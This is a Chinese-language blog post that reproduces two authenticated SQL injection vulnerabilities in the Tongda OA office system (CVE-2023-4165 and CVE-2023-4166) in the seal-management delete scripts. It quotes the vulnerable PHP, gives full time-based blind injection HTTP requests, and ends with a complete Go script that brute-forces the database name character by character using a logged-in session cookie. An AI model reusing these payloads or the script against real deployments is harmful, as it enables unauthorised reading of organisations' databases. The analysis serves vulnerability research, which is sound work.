



通达OA俩SQL注入复现与分析 前言 又是各种day的poc满天飞，我今天挑个通达OA的POC来验证一下其真实性，在此写下文章来分析记录一下。
声明：**文章中涉及的内容可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。
环境搭建 下载地址：https://cdndown.tongda2000.com/oa/2019/TDOA11.9.exe
服务启动
利用admin账号成功登录，密码默认为空
漏洞分析（CVE-2023-4165 ） 根据网传的poc，直接来看/general/system/seal_manage/iweboffice/delete_seal.php文件
1 2 3 4 5 6 7 8 9 10 11 <?php require_once "inc/auth.inc.php" ; include_once "inc/header.inc.php" ; include_once "inc/utility_all.php" ; $CUR_TIME = date("Y-m-d H:i:s" , time()); $DELETE_STR = rtrim($DELETE_STR, "," ); $query = "delete from office_seal WHERE ID IN ($DELETE_STR)" ; exequery(TD::conn(), $query); header("location:manage.php?start=$start" ); ?>
实现的功能是从数据库中删除指定的记录。前面三句是包含其它文件进来。然后第四句开始是创建了一个名为 $CUR_TIME 的变量，保存当前时间。当前时间可能是为了记录删除操作的时间戳。对 $DELETE_STR 变量进行处理，使用rtrim() 函数去掉末尾的逗号（,）。然后是构造了一个 SQL 查询语句，使用 $DELETE_STR 中的值作为 ID 列的筛选条件。
调用 exequery() 函数执行 SQL 查询；使用 header() 函数将请求重定向到另一个页面。
1 2 exequery(TD::conn(), $query); header("location:manage.php?start=$start" );
分析到这里的时候，很明显的一个SQL语句拼接，确认存在SQL注入。
但是我们看到前面是把inc/auth.inc.php包含进来了的，也就是说需要有登录后的权限才能执行下面的删除操作。
没登录的时候，直接访问则会显示“用户未登录，请重新登录!”
我们登录之后进行测试。发现是印章日志查询的功能。

尝试进行注入，试一下有没有过滤sleep

分析一下看到在inc/conn.php中做了过滤。
调用链为：
1 inc/auth.inc.php(3 )--->inc/session.php(77 )--->inc/conn.php---(sql_injection)
在inc/conn.php的sql_injection方法过滤了常见的SQL注入函数
尝试使用网传的poc进行请求
1 2 3 4 5 6 7 8 9 10 GET /general/system/seal_manage/iweboffice/delete_seal.php?DELETE_STR=1 )%20and%20 (substr(DATABASE(),1 ,1 ))=char (83 )%20and%20 (select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1 )=(1 HTTP/1.1 Host: 192.168 .88 .131 User-Agent: Mozilla/5.0 (Windows NT 10.0 ; Win64; x64; rv:109.0 ) Gecko/20100101 Firefox/116.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9 ,image/avif,image/webp,*
使用DATABASE获取当前数据库名称，char(84)是ASCII码的T，看到有稍微延迟（推测是SQL语句匹配运行造成的）
char(83)未延迟
漏洞分析（CVE-2023-4166 ） 这个漏洞其实和上面的那个差不多，只是漏洞点的位置不同，我们也来简单的看一下吧。
/general/system/seal_manage/dianju/delete_log.php
1 2 3 4 5 6 7 8 9 10 <?php require_once "inc/auth.inc.php" ; include_once "inc/header.inc.php" ; if (substr($DELETE_STR, -1 , 1 ) == "," ) { $DELETE_STR = substr($DELETE_STR, 0 , -1 ); } $query = "delete from SEAL_LOG WHERE LOG_ID IN ($DELETE_STR)" ; exequery(TD::conn(), $query); header("location:log.php?start=$start" ); ?>
简单分析看了下，大概功能是从”SEAL_LOG”表中删除指定的日志。根据传入的参数$DELETE_STR，该脚本构建了一个DELETE语句，并使用exequery()函数执行该查询。最后还来了割重定向，和上面的那段代码也是非常相似的。也包含了inc/auth.inc.php
我们就直接上POC了，POC和上面一模一样。
1 2 3 4 5 6 7 8 9 10 GET /general/system/seal_manage/dianju/delete_log.php?DELETE_STR=1 )%20and%20 (substr(DATABASE(),1 ,1 ))=char (84 )%20and%20 (select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1 )=(1 HTTP/1.1 Host: 192.168 .88 .131 User-Agent: Mozilla/5.0 (Windows NT 10.0 ; Win64; x64; rv:109.0 ) Gecko/20100101 Firefox/116.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9 ,image/avif,image/webp,*
延迟两秒多
延迟一秒左右
工具编写 根据上面分析的特性，当遇到正确的字符的时候延迟的时间会比错误的字符多一些。分别是两秒多，和秒左右。
使用go编码的简单脚本，测试的POC是用于枚举当前所使用的数据库名称。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 package mainimport ( "fmt" "net/http" "strings" "time" ) func main () { url := "http://192.168.88.131/general/system/seal_manage/dianju/delete_log.php" delay := 2 cookieValue := "Hm_lvt_74ecab41a4d1845b3fab38f72ed0db35=1679966090; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=3d564868; PHPSESSID=po5cp18o8mov6bk99cd338a7e1" characters := "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_!@#$%^&*()+-" result := "" for i := 1 ; i <= 30 ; i++ { found := false for _, char := range characters { payload := fmt.Sprintf("1) and (substr(DATABASE(),%d,1))=char(%d) and (select count(*) from information_schema.columns A,information_schema.columns B) and(1)=(1" , i, int (char )) req, err := http.NewRequest("GET" , url, nil) if err != nil { fmt.Println("创建请求失败:" , err) return } cookieItems := strings.Split(cookieValue, "; " ) for _, item := range cookieItems { itemSplit := strings.SplitN(item, "=" , 2 ) if len (itemSplit) == 2 { cookie := &http.Cookie{ Name: itemSplit[0 ], Value: itemSplit[1 ], } req.AddCookie(cookie) } } req.URL.RawQuery = "DELETE_STR=" + payload startTime := time.Now() resp, err := http.DefaultClient.Do(req) if err != nil { fmt.Println("发送请求失败:" , err) return } defer resp.Body.Close() endTime := time.Now() responseTime := endTime.Sub(startTime) if responseTime >= time.Duration(delay)*time.Second { result += string(char ) found = true break } } if !found { break } } fmt.Println("Database: " + result) }
CVE-2023-4166获取当前数据库名称
CVE-2023-4165获取当前数据库名称

结果正确
总结 1.两个漏洞很相似
2.漏洞点很容易看到，但想要利用起来还得进行更深入的绕过。